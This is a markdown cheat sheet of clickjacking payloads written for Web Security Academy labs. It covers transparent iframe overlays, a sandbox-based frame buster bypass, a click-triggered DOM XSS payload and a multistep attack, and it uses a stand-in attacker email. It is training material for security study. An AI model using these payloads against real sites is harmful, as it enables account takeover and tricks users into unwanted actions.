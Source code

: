 # Clickjacking

## Basic:
```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

## Basic clickjacking with CSRF token protection

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

## Clickjacking with a frame buster script

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. 
An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 
When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:
`<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click.

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
	div {
		position:absolute;
		top:610px;
		left:80px;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep clickjacking

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:330px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:330px;
		left:50px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
